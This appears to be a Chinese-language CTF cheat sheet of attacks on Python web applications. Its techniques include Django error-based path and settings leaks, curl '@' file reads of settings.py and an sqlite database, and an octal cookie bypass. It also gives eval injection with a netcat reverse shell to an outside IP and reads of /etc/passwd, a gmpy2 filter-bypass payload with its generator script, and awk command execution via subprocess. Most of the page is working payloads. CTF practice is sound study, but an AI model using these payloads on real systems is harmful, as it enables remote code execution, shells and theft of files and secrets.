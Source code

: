 ## **python沙箱逃逸执行危险函数**
<https://blog.csdn.net/Jayjay___/article/details/132436072>

^
## **Django报错**
Django获取字符参数，如果传入的值是%80以上，则会报错，爆出路径等信息，如果是sqllite还会爆出sqllite数据库文件。
```
如：?url=%80
%81
%FF
```
如果一个后端是php是使用curl请求一个django程序，那么可以
```
?url=@一个本地文件路径
实现curl传文件
而django正好不能处理这个文件中的字符，就会报错回显这个文件的内容
实现文件读取
?url=@/opt/api/api/settings.py
?url=@/opt/api/database.sqlite3
```



^
## **十六进制编码**
十六进制编码在Python字符串中是合法的，因为它是Python语言规范的一部分。当Python解释器读取到这样的编码时，它会将十六进制数转换成对应的字符。

## **八进制编码**
有时也用八进制编码绕过
```
user = request.cookies.get("user")
    if user.lower() == 'adm;n':

Cookie: user="adm\073n";
```

^
## **eval()函数利用**
python报错后显示了代码：eval(a + operator + b)
```
拼接传参b
/_calculate?number1=1&operator=-&number2=1,__import__ ('os').system('nc 120.46.41.173 9023 -e /bin/sh')
```

```
eval(__import__('os').popen('cat /etc/passwd').read());
eval(__import__('os').popen('cat /f*').read());
```

^
## **eval存在过滤**
eval(code)
要求code存在gmpy2数组中
```
for item in pattern.findall(code):#从code里把单词拿出来 
if not re.match(r'\d+$',item):#如果不是数字 
if item not in dir(gmpy2):#逐个和gmpy2库里的函数名比较
```
```
知道gmpy2以下可以命令执行：
gmpy2.__builtins__['eval']("__import__('os').popen('tac /flag').read()")

则需要对eval和__import__('os').popen('tac /flag').read()进行内含的数组中绕过
即：
gmpy2.__builtins__['erf'[0]+'div'[2]+'ai'[0]+'lcm'[0]]('c_div'[1]+'c_div'[1]+'ai'[1]+'agm'[2]+'cmp'[2]+'cos'[1]+'erf'[1]+'cot'[2]+'c_div'[1]+'c_div'[1]+"("+"'"+'cos'[1]+'cos'[2]+"'"+")"+"."+'cmp'[2]+'cos'[1]+'cmp'[2]+'erf'[0]+'jn'[1]+"("+"'"+'cot'[2]+'ai'[0]+'cmp'[0]+" "+"/"+'erf'[2]+'lcm'[0]+'ai'[0]+'agm'[1]+"'"+")"+"."+'erf'[1]+'erf'[0]+'ai'[0]+'add'[1]+"("+")")

```
生成脚本
```
s="__import__('os').popen('tac /flag').read()"

import gmpy2

payload="gmpy2.__builtins__['erf'[0]+'div'[2]+'ai'[0]+'lcm'[0]]("

for i in s:
        if i not in "/'(). ":
                temp_index=0
                temp_string='x'*20
                for j in dir(gmpy2):
                        if j.find(i)>=0:
                                if len(j)<len(temp_string):
                                        temp_string=j
                                        temp_index=j.find(i)
                payload+=f'\'{temp_string}\'[{temp_index}]+'
        else:
                payload+=f'\"{i}\"+'

payload=payload[:-1]+')'

print(payload)
```



^
## **subprocess运行外部命令**
使用了 Python 的 `subprocess` 模块来运行外部命令：
```
cmd: str = request.form.get('cmd')
param: str = request.form.get('param')

tVar = subprocess.run([cmd[:3], param, __file__], cwd=os.getcwd(), timeout=5)
```
1. `subprocess.run`: 这是 `subprocess` 模块中的一个函数，用于运行外部命令。
2. `cmd[:3]`: 这是一个列表，包含了外部命令的可执行文件和它的参数。`cmd[:3]` 表示取 `cmd` 列表的前三个元素，可能是外部命令的可执行文件和一些参数。
3. `param`: 这是一个变量，作为外部命令的参数。
4. `__file__`: 这是一个变量，表示当前脚本的文件名。
5. `cwd=os.getcwd()`: 这是 `subprocess.run` 函数的参数，指定了子进程的当前工作目录。`os.getcwd()` 返回当前工作目录。
6. `timeout=5`: 这是 `subprocess.run` 函数的参数，指定了运行外部命令的超时时间，单位是秒。在这里，设置为 5 秒。

cmd是执行的命令，param是执行的参数
可以直接
```
cmd=cat&param=flag.txt
```

python中有一个awk命令，可以执行系统命令，长度刚好为3
格式为：awk '{system("ls")}' 
通过抓包分析，传参方式为post，根据可控参数cmd和param
通过awk构造payload
payload:
```
cmd=awk&param={system("ls")}//查看当前路径下所有文件
cmd=awk&param={system("cat fla*")}//查看fLag文件的内容
```
